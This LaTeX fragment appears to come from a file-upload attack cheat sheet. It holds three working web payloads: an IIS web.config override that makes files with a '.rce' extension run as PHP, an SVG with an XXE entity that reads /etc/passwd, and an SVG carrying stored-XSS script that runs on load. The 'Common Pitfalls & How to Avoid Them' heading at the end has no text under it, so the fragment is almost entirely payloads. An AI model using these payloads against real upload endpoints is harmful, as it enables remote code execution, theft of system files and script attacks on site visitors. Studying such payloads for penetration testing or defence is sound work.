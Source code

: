 \documentclass[11pt]{article}
\begin{document}
\subsection{web.config Override (IIS)}
\begin{lstlisting}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <system.webServer>
    <handlers>
      <add name="php" path="*.rce" verb="*" modules="FastCgiModule" 
           scriptProcessor="C:\PHP\php-cgi.exe" resourceType="File" />
    </handlers>
  </system.webServer>
</configuration>
\end{lstlisting}

\subsection{XXE Payload (SVG)}
\begin{lstlisting}
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg><text>&xxe;</text></svg>
\end{lstlisting}

\subsection{Stored XSS (SVG)}
\begin{lstlisting}
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>
\end{lstlisting}

\section{Common Pitfalls \& How to Avoid Them}
\end{document}
